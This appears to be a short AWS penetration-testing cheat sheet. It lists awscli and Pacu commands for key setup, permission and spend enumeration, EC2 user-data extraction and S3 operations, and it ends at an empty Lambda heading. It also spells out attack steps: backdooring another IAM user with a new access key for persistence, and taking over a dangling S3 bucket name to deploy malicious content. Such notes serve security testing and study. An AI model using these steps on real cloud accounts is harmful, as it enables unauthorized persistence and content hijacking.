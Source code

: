 ## General
### Access key and Secret key:
```
aws configure
aws configure --profile Test
aws sts get-caller-identity --profile Test
```

### PACU
```
import_keys Test
ls
whoami
run iam__enum_permissions
run aws__enum_spend
```

## Maintain persistence
Identify user with 0 or 1 access key (need iam:CreateAccessKey)
```
aws iam list-users --profile Test
aws iam list-access-keys --user-name Sarah --profile Test
aws iam create-access-key --user-name Sarah --profile Test
# Or run PACU command
run iam__backdoor_users_keys
```

## EC2
10.0.1.1 is reserved for the gateway of the subnet, 10.0.1.2 is
reserved for AWS DNS, and 10.0.1.3 is reserved for any future use by
AWS.

Look for hardcoded user data
```
run ec2__enum
run ec2__download_userdata
```
## S3
### awscli commands
```
aws s3 ls s3://kirit-bucket
aws s3 cp abc.txt s3://kirit-bucket/new/abc.txt
aws s3 rm s3://kirit-bucket/new/abc.txt --acl public-read
```

### NoSuchBucket message
- Check CNAME record for the bucket name
- Create S3 bucket with the same name and region
- Deploy malicious content

## Lambda
